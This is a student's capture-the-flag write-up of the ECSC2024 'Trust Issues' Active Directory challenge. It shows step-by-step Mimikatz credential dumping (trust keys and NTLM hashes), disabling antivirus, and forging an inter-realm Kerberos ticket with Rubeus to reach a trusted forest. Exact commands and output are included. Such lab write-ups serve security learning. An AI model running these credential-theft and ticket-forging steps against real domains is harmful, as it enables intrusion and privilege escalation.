


ECSC2024
===========================


Earlier this year (October, 2024), I had the amazing opportunity to participate in ECSC2024 representing [NUS Greyhats](https://nusgreyhats.org/team/)! It was an insane experience to participate among some of the best in NUS and was a super cool learning experience for me!

the event was a span of 4 days, consisting of Opening ceremonies, two days of Capture the flag competions (Jeopardy and Attack Defense) and an afterparty, I had a blast meeting the best european youths here and learning a ton about infosec.


# The Jeopardy CTF
This Jeopardy Capture The Flag (CTF) was by far the hardest one I have played so far! It only lasted 8 hours and consisted of [30 challenges, and solutions have been released](https://github.com/ECSC2024/ECSC2024-CTF-Jeopardy).

## Writeup for Trust Issues
This was an Windows Active Directory challenge. It exploits the fact that an Administrator account on a trusting domain(Pizza) actually has the power of an Administrator on a trusted domain(Spaghetti), allowing us to access files on the trusted domain which contains the flag.txt.

### Challenge Description
As part of this year's "Hack & Snack" event, we (Pizza Overflow) have been working closely with Spaghetti Fork Bomb - so closely, in fact, that we decided to establish a trust between our two Active Directory forests. However, Spaghetti Fork Bomb, being a bit paranoid (maybe they've watched The Godfather too many times?), insisted on a one-way trust. In this setup, Pizza Overflow's forest trusts Spaghetti Fork Bomb's forest, but not the other way around. This means they can simply walk into our forest, grab a slice of pizza, and critique our sauce, while we can't even get a taste of their marinara recipe. Suspicious, right? What's so secretive about spaghetti anyway?

One of our clever employees, while waiting for the dough to rise, pointed out that a one-way trust might not be as secure as Spaghetti Fork Bomb thinks. So, we hinted that we might still be able to access their forest if we tried. They took the bait, and in true CTF-style, they've placed a flag on their domain controller at \\dc.spaghetti.local\flag\flag.txt, accessible to all their domain users, daring us to capture it.

And now, dear hacker, the kitchen is yours. We're giving you full administrative access to Pizza Overflow's forest. Your mission: Prove us right - break into Spaghetti Fork Bomb's forest and grab that flag like it's the last slice of pizza.

Author: Oliver Lyak <@ly4k>

## My solution


The issue we want to exploit:​ Even in a one way trust domain in windows, Administrator on the weaker domain (Trusting) has power on stronger domain (Trusted)!

## Tools used
- [mimikatz](https://github.com/ParrotSec/mimikatz)
- [rubeus](https://github.com/GhostPack/Rubeus)


### RDP into PIZZA
Admin credentials to access via RDP were provided as well as the server address

### Disable the Windows AV



### Drop Mimikatz
For some reason straight dumping the password (the intended solution) didn't work for me? However, by running Mimikatz as admin, I was able to dump the password hash.

```mimikatz
lsadump::trust /patch

[ Out ] SPAGHETTI.LOCAL -> PIZZA.LOCAL
    * 10/4/2024 3:42:50 PM - CLEAR   - 24 00 5f 00 64 00 63 00 2d 00 77 00 40 00 3e 00 4e 00 57 00 71 00 3b 00 37 00 25 00 28 00
        * aes256_hmac       9336ac1eaf12ba4c1658953cbde84be4fabaf91d11fa42b8827fd42c0ec1689f
        * aes128_hmac       b0352d765174549b2e0d5322b363c8e3
        * rc4_hmac_nt       3433486463b1d413fd4855bf1ef18866
```

with the hash, we can gather further information about the domain in order to create our inter realm(silver) ticket.

```mimikatz
mimikatz # lsadump::lsa /patch

Domain : PIZZA / S-1-5-21-1591902766-2347290296-3208094564

RID  : 000001f4 (500)
User : deploy
LM   :
NTLM : 5485b175b871cdde0cc66aa877502f26

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 2674b00eaf4c78a504fb90c29289e66f

RID  : 0000044f (1103)
User : Administrator
LM   :
NTLM : c3fcaad95990097fa177460e7d2492c6

RID  : 000003e8 (1000)
User : dc$
LM   :
NTLM : 3a57f862aecf80e9042973357855c3d1
```

### Inter Realm (Silver) ticket

Use the hash and information from Mimikatz to generate an Inter realm Ticket, allowing us access on the SPAGHETTI domain.
```powershell
.\Rubeus.exe silver `
/user:Administrator `
/id:1608 `
/domain:pizza.local `
/sid:S-1-5-21-1591902766-2347290296-3208094564 `
/groups:513 `
/sids:S-1-5-21-2747586946-719840323-2376372491-519 `
/service:krbtgt/spaghetti.local `
/rc4:3433486463b1d413fd4855bf1ef18866 `
/nowrap
```

This will give us an output of the `ticket.kirbi`
```powershell
  ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : PIZZA.LOCAL (PIZZA)
[*] SID            : S-1-5-21-1591902766-2347290296-3208094564
[*] UserId         : 1608
[*] Groups         : 513
[*] ExtraSIDs      : S-1-5-21-2747586946-719840323-2376372491-519
[*] ServiceKey     : 3433486463B1D413FD4855BF1EF18866
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 3433486463B1D413FD4855BF1EF18866
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : spaghetti.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@pizza.local'

[*] AuthTime       : 10/9/2024 1:00:30 PM
[*] StartTime      : 10/9/2024 1:00:30 PM
[*] EndTime        : 10/9/2024 11:00:30 PM
[*] RenewTill      : 10/16/2024 1:00:30 PM

[*] base64(ticket.kirbi):

      doIFVTCCBVGgAwIBBaEDAgEWooIEUTCCBE1hggRJMIIERaADAgEFoQ0bC1BJWlpBLkxPQ0FMoiQwIqADAgECoRswGRsGa3JidGd0Gw9zcGFnaGV0dGkubG9jYWyjggQHMIIEA6ADAgEXoQMCAQOiggP1BIID8WJ7TtfnH3j+G3P1zw4Lsxk0VlfkPLdVqESe6z2fXj9G+49W8rjK+XPQnvOQ/eLVYIprPL8NB9WDt4L6pUYCYlgSQ2aFBqB09rnzTSOmwou8PSfmLaGmeP7JE87fCzE0X93CD5ZlwNzTlk6KFsa1Wa3gnkNi2qeNGiVU/1whr/HS004xfUHHv8QaMYbYmyWEsGGSAKuzJZEXHlicwsSj2vO5MMueWMxVEKv4shMaaTQmPFMGr4v6Dyf4ak7I07zweDq+uJEhT61GqCNdUIS90lsk1oTgPnASfnI14Q801KszDYN3KHmygOYU3EP/PrCRDxwFsJnrEct6nBf9qEoDze8+h08meBlwHT+05tufG+e3qAjBwveeO/u6HWKGDMDQ26oZXdVR3H3bXxzHKn8OTqKSTgufmq8q+SYDolXc/5e3pHUd4V27vwgoVoA+aqbXTAKa2Txl/gZHOx3n49Flw7nvnKB1Ltnzvt6+og7DUYfY0TUnnUDyCMRZ8Ima5HOpNVXKageRFovF9XaxJMsUIOuMxEe5z4IaHLOkyqIbzEMjGMlrgp0HEv7uxtT8ozkPm3nOl95GC/eGDSWcCoqWyLXhEvN1V9UoK6ZtmghabQrz/px7KrqBj1/eZkJvmKJDu73k9Vq59XPQ4gIWccR/A9RgWX8kMTdnqYkIixPiXw0TQ+1VhWyu0ULad8OC/Gr02ecgwwcIfCd88HzMp0YxZ2pBecLet7oo6Knwq6dasOn04pNvsOjIw8SM4VPpRd7wyh1FUJwVEC+WdZ96HmxxA0rspa0wTlbdm7e8vnfGVsFmfRKDV9KeixtrkUbdznRsDlGyfGpngSpMLeyr+hBRaLLaab2C5/HRgsZaPe83FoNaJ0xH62Ej2VbBLnAwAqVC/swbpOkeJjXAkYxnoLz/WRlsy9/IywOvUmJHWSu2rAxQN6xAJQJLbWDYT0jiZUle8eKzKNEMNrbA+nfG2+K8o1BPkpyZS2snCqz0dhjda/6SC+j68yCW0NQ4J5qeDpQuGLFVDPCqkMXSgknNG2PidUbR7oiP5lWBYy2A1RKhPUN82lsfkTQAKApMHR2oTSGjSOFZvCSHZaRLnc8AjgIBfE4xG6YwZI3a/qzQbwE9ykXf37+CC8mhq+T54bdz3ai2W+WhlrNupN4j3u/oGbHYDgeIv19Xa6h8gnG62fw5J/AhPWMtP46lJ6jaRusXyRRJIpyDctCK4bWVEseZkv9u4JfPW8IJqk+thp+Z9HXgGKbAL+TLxfS1zEqsZsBqO48wFjjaR0VZ0Uo1ZdMV7jx0/0XQM3VVUp3LZsEUiwGlyS7qUplzg0dMcxajFWf9R2XwDZ+jge8wgeygAwIBAKKB5ASB4X2B3jCB26CB2DCB1TCB0qAbMBmgAwIBF6ESBBAeRMKX3clvZxAP90ur+nxBoQ0bC1BJWlpBLkxPQ0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKAAAKQRGA8yMDI0MTAwOTEzMDAzMFqlERgPMjAyNDEwMDkxMzAwMzBaphEYDzIwMjQxMDA5MjMwMDMwWqcRGA8yMDI0MTAxNjEzMDAzMFqoDRsLUElaWkEuTE9DQUypJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD3NwYWdoZXR0aS5sb2NhbA==
```

We can then inject this ticket with Rubeus
```powershell
.\Rubeus.exe asktgs `
/service:HTTP/dc.spaghetti.local `
/ticket:doIFVTCCBVGgAwIBBaEDAgEWooIEUTCCBE1hggRJMIIERaADAgEFoQ0bC1BJWlpBLkxPQ0FMoiQwIqADAgECoRswGRsGa3JidGd0Gw9zcGFnaGV0dGkubG9jYWyjggQHMIIEA6ADAgEXoQMCAQOiggP1BIID8WJ7TtfnH3j+G3P1zw4Lsxk0VlfkPLdVqESe6z2fXj9G+49W8rjK+XPQnvOQ/eLVYIprPL8NB9WDt4L6pUYCYlgSQ2aFBqB09rnzTSOmwou8PSfmLaGmeP7JE87fCzE0X93CD5ZlwNzTlk6KFsa1Wa3gnkNi2qeNGiVU/1whr/HS004xfUHHv8QaMYbYmyWEsGGSAKuzJZEXHlicwsSj2vO5MMueWMxVEKv4shMaaTQmPFMGr4v6Dyf4ak7I07zweDq+uJEhT61GqCNdUIS90lsk1oTgPnASfnI14Q801KszDYN3KHmygOYU3EP/PrCRDxwFsJnrEct6nBf9qEoDze8+h08meBlwHT+05tufG+e3qAjBwveeO/u6HWKGDMDQ26oZXdVR3H3bXxzHKn8OTqKSTgufmq8q+SYDolXc/5e3pHUd4V27vwgoVoA+aqbXTAKa2Txl/gZHOx3n49Flw7nvnKB1Ltnzvt6+og7DUYfY0TUnnUDyCMRZ8Ima5HOpNVXKageRFovF9XaxJMsUIOuMxEe5z4IaHLOkyqIbzEMjGMlrgp0HEv7uxtT8ozkPm3nOl95GC/eGDSWcCoqWyLXhEvN1V9UoK6ZtmghabQrz/px7KrqBj1/eZkJvmKJDu73k9Vq59XPQ4gIWccR/A9RgWX8kMTdnqYkIixPiXw0TQ+1VhWyu0ULad8OC/Gr02ecgwwcIfCd88HzMp0YxZ2pBecLet7oo6Knwq6dasOn04pNvsOjIw8SM4VPpRd7wyh1FUJwVEC+WdZ96HmxxA0rspa0wTlbdm7e8vnfGVsFmfRKDV9KeixtrkUbdznRsDlGyfGpngSpMLeyr+hBRaLLaab2C5/HRgsZaPe83FoNaJ0xH62Ej2VbBLnAwAqVC/swbpOkeJjXAkYxnoLz/WRlsy9/IywOvUmJHWSu2rAxQN6xAJQJLbWDYT0jiZUle8eKzKNEMNrbA+nfG2+K8o1BPkpyZS2snCqz0dhjda/6SC+j68yCW0NQ4J5qeDpQuGLFVDPCqkMXSgknNG2PidUbR7oiP5lWBYy2A1RKhPUN82lsfkTQAKApMHR2oTSGjSOFZvCSHZaRLnc8AjgIBfE4xG6YwZI3a/qzQbwE9ykXf37+CC8mhq+T54bdz3ai2W+WhlrNupN4j3u/oGbHYDgeIv19Xa6h8gnG62fw5J/AhPWMtP46lJ6jaRusXyRRJIpyDctCK4bWVEseZkv9u4JfPW8IJqk+thp+Z9HXgGKbAL+TLxfS1zEqsZsBqO48wFjjaR0VZ0Uo1ZdMV7jx0/0XQM3VVUp3LZsEUiwGlyS7qUplzg0dMcxajFWf9R2XwDZ+jge8wgeygAwIBAKKB5ASB4X2B3jCB26CB2DCB1TCB0qAbMBmgAwIBF6ESBBAeRMKX3clvZxAP90ur+nxBoQ0bC1BJWlpBLkxPQ0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKAAAKQRGA8yMDI0MTAwOTEzMDAzMFqlERgPMjAyNDEwMDkxMzAwMzBaphEYDzIwMjQxMDA5MjMwMDMwWqcRGA8yMDI0MTAxNjEzMDAzMFqoDRsLUElaWkEuTE9DQUypJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD3NwYWdoZXR0aS5sb2NhbA==
/ptt
```
And we should now have administrative access to the SPAGHETTI domain!

### Print flag!

We can then use Get-ChildItem to get the flag
```powershell
PS C:\Users\Administrator\Desktop> Get-ChildItem \\dc.spaghetti.local\flag\flag.txt


    Directory: \\dc.spaghetti.local\flag


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         10/9/2024   4:36 AM             82 flag.txt
```

And use `type` to print it
```powershell
PS C:\Users\Administrator\Desktop> type \\dc.spaghetti.local\flag\flag.txt
ECSC{i_trusted_trust_to_trust_you_to_trust_me_but_now_i_dont_trust_trust_d9d54b56}
```

### Conclusion
I later found out from the [solution writeup](https://github.com/ECSC2024/ECSC2024-CTF-Jeopardy/blob/main/misc02/writeup.md) that I made a wayyy longer and harder solve compared to the intended solution as I could not run `lsadump::trust` using mimikatz, and encountered an error. Nonetheless, it was a great learning experience as I got to understand in much more depth on how windows Active Directories were insecure!


## Resources referenced
[Abusing Trust Account$: Accessing Resources on a Trusted Domain from a Trusting Domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-trust-accountusd-accessing-resources-on-a-trusted-domain-from-a-trusting-domai)

[SID filter as security boundary between domains? (Part 1) - Kerberos authentication explained](https://blog.improsec.com/tech-blog/o83i79jgzk65bbwn1fwib1ela0rl2d)

[part2 ](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-2-known-ad-attacks-from-child-to-parent)

[Exploiting trust in one way outbound domain](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/external-forest-domain-one-way-outbound)
